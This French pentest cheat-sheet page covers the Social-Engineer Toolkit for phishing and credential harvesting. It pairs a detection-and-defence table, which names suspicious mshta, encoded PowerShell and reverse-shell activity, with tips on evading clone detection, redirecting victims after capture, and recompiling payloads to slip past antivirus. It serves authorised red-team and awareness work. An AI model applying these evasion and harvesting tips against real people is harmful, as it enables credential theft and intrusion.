| **Quand l'utiliser ?** | Phase Initial Access / Social Engineering d'un engagement autorisé, campagnes de sensibilisation |
| **Commande principale** | `sudo setoolkit` |
| **Alternative principale** | [[Outil - GoPhish]] (campagnes) · [[Outil - Evilginx2]] (2FA bypass) · [[Outil - SocialFish]] (harvester simple) |
| **Concepts importants** | Credential harvesting, Site Cloner, payloads Metasploit, mass mailer, vecteurs 1-9 |
| **Liens associés** | [[Outil - Metasploit]] · [[Outil - GoPhish]] · [[Outil - Evilginx2]] · [[Outil - SocialFish]] |
---

## Détection & Défense
| Signe | Défense |
|---|---|
| Email réclamant urgence + pièce jointe ou lien | **SPF/DKIM/DMARC** : rejeter les emails non authentifiés ; sandboxing des pièces jointes |
| Page de login clonée (URL, certificat, layout anormal) | Vérification d'URL, HSTS, sensibilisation au phishing |
| Utilisateur qui saisit ses identifiants sur une page HTTP | **MFA obligatoire** : le harvester ne capture pas le 2e facteur ; TLS partout |
| `mshta.exe`, `powershell -enc`, `rundll32` suspects | **EDR + application control** (AppLocker/WDAC), restreindre les binaires proxy |
| Téléchargements de fichiers Office/ISO/HTA depuis le web | Filtrage web sortant, blocage des extensions à risque |
| Connexions sortantes vers IP/port inhabituels | **EDR** + inspection réseau : reverse shell |
---

## Tips & Pièges
> [!tip] **Tips**
> - Utilisez le **Template Custom** (menu 6) pour des pages 100 % originales qui n'ont pas la signature d'un clone exact : plus dur à détecter qu'un Site Cloner.
> - Mappez le domaine cloné vers votre IP (fichier `hosts` ou DNS local) : `192.168.1.10 login.example.com` — la victime voit l'URL légitime, pas votre IP.
> - Redirigez la victime vers le vrai site après la capture (action_url relay) pour ne pas éveiller les soupçons.
> - En lab, lancez `sudo setoolkit` avec un fichier `hosts` propre et un port dédié pour éviter les conflits Apache.
> - Gardez un listener **Metasploit multi/handler** ouvert (`exploit/multi/handler`) pour rattacher les sessions après coup.

> [!warning] **Pièges**
> - SET est extrêmement connu : les AV/EDR signent ses payloads de base. Compilez vos propres payloads ou utilisez des encodages personnalisés.
> - Ne cliquez pas trop vite dans les menus : la numérotation **varie selon les versions** — lisez les options affichées avant de valider.
> - L'IP/port d'écoute doit être correct dès le départ : une erreur rend le payload muet (listener sur le mauvais port).
> - L'email spoofing via SMTP classique échoue avec SPF/DKIM/DMARC : prévoyez un domaine de phishing authentifié.
> - Ne stockez jamais les credentials capturés plus longtemps que nécessaire et nettoyez `~/.set/` après l'engagement.
---

## References
### Official
- Documentation officielle (README) : https://github.com/trustedsec/social-engineer-toolkit#readme
- GitHub officiel : https://github.com/trustedsec/social-engineer-toolkit
- Manuel utilisateur (PDF) : https://github.com/trustedsec/social-engineer-toolkit/raw/master/readme/User_Manual.pdf
- Changelog : https://github.com/trustedsec/social-engineer-toolkit/blob/master/readme/CHANGELOG
- Page TrustedSec : https://trustedsec.com/resources/tools/the-social-engineer-toolkit-set

### Security references
- MITRE ATT&CK T1566 — Phishing : https://attack.mitre.org/techniques/T1566/
- MITRE ATT&CK T1204 — User Execution : https://attack.mitre.org/techniques/T1204/
- MITRE ATT&CK T1218.005 — Mshta : https://attack.mitre.org/techniques/T1218/005/
- MITRE ATT&CK T1071.001 — Web Protocols : https://attack.mitre.org/techniques/T1071/001/

### Community
- HackTricks — Phishing & Social Engineering : https://book.hacktricks.xyz/
- Infosec write-ups SET (exploit-db, HackerOne reports) : https://www.exploit-db.com/
- TrustedSec blog — SET v7.7 « Blackout » : https://trustedsec.com/blog/social-engineer-toolkit-set-v7-7-blackout-released

---

**Liens :** [[Tools| Outils]] · [[Outil - BeEF|BeEF]] · [[Outil - GoPhish|GoPhish]] · [[Outil - Evilginx2|Evilginx2]] · [[Outil - SocialFish|SocialFish]] · [[Outil - Weeman|Weeman]] · [[Outil - Modlishka|Modlishka]] · [[Outil - Metasploit|Metasploit]] · [[Outil - Evil-WinRM|Evil-WinRM]]
